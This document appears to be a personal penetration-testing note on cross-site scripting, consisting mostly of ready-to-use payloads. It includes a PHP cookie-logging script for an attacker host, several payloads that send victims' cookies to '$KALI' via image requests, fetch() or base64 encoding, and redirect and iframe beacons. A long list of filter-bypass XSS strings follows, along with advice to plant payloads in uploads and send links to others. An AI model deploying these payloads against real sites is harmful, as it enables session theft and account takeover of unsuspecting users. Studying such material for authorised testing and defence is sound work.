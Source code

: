 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Payload all the things resource:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
```

#### Test for XSS

Check if HttpOnly is disabled.

[[rlwrap]]

![[Pasted image 20220926131911.png]]

```
<img+src%3dhttp%3a//$KALI/x+/>>
```

![[Pasted image 20220926131833.png]]

#### steal.php

Save on to kali as `/var/www/html/steal.php`
```php - kali
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh, $ip.' '.$browser. ' '.$cookie. " \n");
fclose($fh);
echo "Thanks for your info" . $_POST['name'] . "!!!";
?>
```

```bash - kali
sudo chmod 777 /var/www/html/steal.php
```

```bash - kali
service apache2 start
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```html - target
<script>var i=new Image();i.src="http://$KALI/steal.php?q="+document.cookie;</script>
```

now just view the log:
```firefox
127.0.0.1/log.txt
```

Can also be used in file uploads if it allows! Try finding uploaded URL and send that link out for others to click!

#### Base64 encode

The btoa() function is used to encode the cookies as base64 and then append it to the IP address. URL encode this payload and repeat the request.

[[rlwrap]]

```
<img src=x onerror=this.src='http://$KALI/?cookies='+btoa(document.cookie)
/>
```

Now decode the base64 value.  Remember `%3D` is `=`.

#### New Awesome payload
Replaces `<script>alert(1)</script>`

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

#### Basic payloads
```html
<script>alert('XSS')</script>
```

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

```html
"><script>alert('XSS')</script>
```

```html
"><script>alert(String.fromCharCode(88,83,83))</script>
```

```html
<script>\u0061lert('22')</script>
```

```html
<script>eval('\x61lert(\'33\')')</script>
```

```html
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
```

```html
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```

#### Img payloads
```html
<img src=x onerror=alert('XSS');>
```

```html
<img src=x onerror=alert('XSS')//
```

```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```

```html
"><img src=x onerror=alert('XSS');>
```

```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

Svg payloads
```html
<svgonload=alert(1)>
```

```html
<svg/onload=alert('XSS')>
```

```html
<svg onload=alert(1)//
```

```html
<svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
<svg id=alert(1) onload=eval(id)>
```

```html
"><svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
"><svg/onload=alert(/XSS/)
```

```html
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```

```html
<svg><script>alert('33')
```

```html
<svg><script>alert&lpar;'33'&rpar;
```

// Div payload
```html
<div onpointerover="alert(45)">MOVE HERE</div>
```

```html
<div onpointerdown="alert(45)">MOVE HERE</div>
```

```html
<div onpointerenter="alert(45)">MOVE HERE</div>
```

```html
<div onpointerleave="alert(45)">MOVE HERE</div>
```

```html
<div onpointermove="alert(45)">MOVE HERE</div>
```

```html
<div onpointerout="alert(45)">MOVE HERE</div>
```

```html
<div onpointerup="alert(45)">MOVE HERE</div>
```


#### Example 1
- Something reflected on page?
	- `?default=English` : XSS
	- Test by changing value : `?default=AAAAA`
	- Inspect page:
	![[Pasted image 20220902124919.png]]

From the image above, we see we need to close out the option value  (`'>`), the options tag (`</option>`), and the select tag (`</select>`).  Then, create a h1 tag to test reflection on page.  Should see big bold TEST on page.

?default=
```html
'></option></select><h1>TEST</h1>
```

Next, try introducing script tag:
```html
'></option></select><script>alert('XSS')</script>
```

Using this to redirect user to other website:
```html
'></option></select><script>document.location.href="http://$KALI"</script>
```

If script tag is being filtered:
```html
'></option></select><img src=x onerror="alert('XSS')"/>
```

If there is an input box that reflects to page:
`<h1>Test</h1>`
![[Pasted image 20220902130252.png]]
`<script>alert('XSS')</script>`
If does not work, try bypass methods (`<SCRIPT>`, or `<SCRSCRIPTIPT>`)

XSS Filter bypass URL Encoding:
The "/" character is being filtered below:
![[Pasted image 20220905132535.png]]

`encodeURIComponent("<h1>Test</h1>");`
![[Pasted image 20220905132518.png]]

Testing input boxes:
![[Pasted image 20220902130624.png]]
![[Pasted image 20220902130644.png]]

Once found, set up listener and input script tag to steal cookies:
[[rlwrap]]
```html
<script>fetch('http://$KALI:80/'+document.cookie); /script>
```

Just modify cookie value in browser for win.

#### iframe test

[[rlwrap]]

```html
<iframe src=http://$KALI/report height="0" width="0"></iframe>
```

When a user connects to the page, we will receive there browser details:

![[Pasted image 20220505155251.png]]

#### Stealing Cookies and Session Information
[[rlwrap]]

```html
<script>new Image().src="http://$KALI/cool.jpg?output="+document.cookie;</script>
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
